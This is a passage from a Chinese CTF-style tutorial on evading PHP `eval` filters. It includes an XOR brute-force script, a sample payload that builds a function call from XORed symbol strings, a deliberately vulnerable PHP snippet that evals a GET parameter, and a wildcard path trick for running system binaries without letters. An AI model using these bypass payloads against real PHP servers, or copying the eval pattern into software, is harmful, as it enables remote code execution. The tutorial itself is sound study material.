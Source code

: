 这种方法的核心是字符串的异或操作。

爆破脚本：

```
chr1 = ['@', '!', '"', '#', '$', '%', '&', '\'', '(', ')', '*', '+', ',', '-', '.', '/', ':', ';', '<', '=', '>', '?', '[', '\\', ']', '^', '_', '`', '{', '|', '}', '~']
chr2 = ['@', '!', '"', '#', '$', '%', '&', '\'', '(', ')', '*', '+', ',', '-', '.', '/', ':', ';', '<', '=', '>', '?', '[', '\\', ']', '^', '_', '`', '{', '|', '}', '~']

for i in chr1 :
    for j in chr2 :
        print(i + 'xor' + j + '=' + (chr(ord(i) ^ ord(j)))) 
```

根据题目的要求，用异或出来的字符串拼出合适的Payload，并放在PHP变量中执行。变量名可以用中文。

比如这道题的Payload：`?code=$啊="@@^|@@@"^"'%*:,!'";$啊();`

**5.Linux通配符绕过正则匹配**

典型代码如下，与前一种题目非常相似，但也不大一样：？？

```
<?php 

if(isset($_GET['code'])){ 
   $code=$_GET['code']; 
   if(strlen($code)>50){ 
       die("Too Long."); 
  } 
   if(preg_match("/[A-Za-z0-9_$]+/",$code)){ 
       die("Not Allowed."); 
  } 
   @eval($code); 
}else{ 
   highlight_file(__FILE__); 
} 

?> 
```

最主要的区别就是过滤了 $ 和 _ ，也就是说无法使用变量符号$了。

这时候可以考虑采用**通配符**绕过。

通配符有点像正则表达式，有自己的匹配规则，看这张图：
![在这里插入图片描述](img/264b472b99ca01f12ff0e2e2759d14e9.png)
所以构造一下通配符就是`/???/??? /*`。
